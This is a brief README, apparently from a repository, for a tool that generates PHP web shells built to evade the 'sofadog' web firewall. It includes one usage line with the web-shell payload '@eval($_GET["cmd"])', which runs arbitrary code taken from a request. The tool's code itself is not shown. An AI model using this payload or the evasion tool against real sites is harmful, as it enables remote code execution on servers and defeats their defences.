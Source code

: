 # training
bypass_webshell里面是绕过sofadog的webshell
用法： python.exe fuckdogwebshell.py '@eval($_GET["cmd"])'

